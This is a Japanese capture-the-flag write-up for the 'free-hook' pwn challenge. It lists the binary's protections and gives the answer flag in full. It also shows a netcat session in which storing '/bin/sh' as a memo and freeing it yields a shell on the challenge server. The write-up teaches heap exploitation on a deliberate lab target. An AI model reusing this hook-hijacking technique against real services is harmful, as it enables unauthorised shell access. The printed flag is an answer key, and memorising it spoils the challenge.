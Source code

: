 # free-hook [pwn]
## 問題文

```
nc free.pwn.wanictf.org 9002
```

### ヒント

+ free_hookの仕組みを理解する必要があります。

### 使用ツール例
+ [netcat (nc)](https://github.com/wani-hackase/memo-setup-pwn-utils#netcat)

### gccのセキュリティ保護

+ *Partial RELocation ReadOnly (RELRO)*
+ *Stack Smash Protection (SSP)無効*
+ No eXecute bit(NX)有効
+ *Position Independent Executable (PIE)無効*

## FLAG

```
FLAG{malloc_hook_is_a_tech_for_heap_exploitation}
```

## 解法

heap問題は僕(saru)自身理解するのがとても難しくてheap問題が解けるようになるために必要なテクニックを学べるように作問しました。
が、hookの概念が少し難易度が高かったか正答数が少なかったです。

やることは`/bin/sh`のメモを作ってfreeするだけです。
なんですが、netcatの23%の正答者数(2021/05/01 14:00段階)なのでもう少し誘導必要だったな、と思ってます．．．

```
$ nc free.pwn.wanictf.org 9002
1: add memo
2: view memo
9: del memo
command?: 1
index?[0-9]: 0
memo?: /bin/sh



[[[list memos]]]
***** 0 *****
/bin/sh


1: add memo
2: view memo
9: del memo
command?: 9
index?[0-9]: 0
ls
chall
flag.txt
redir.sh
^C
$
```

view memoとかいらなかったかなぁ．．．
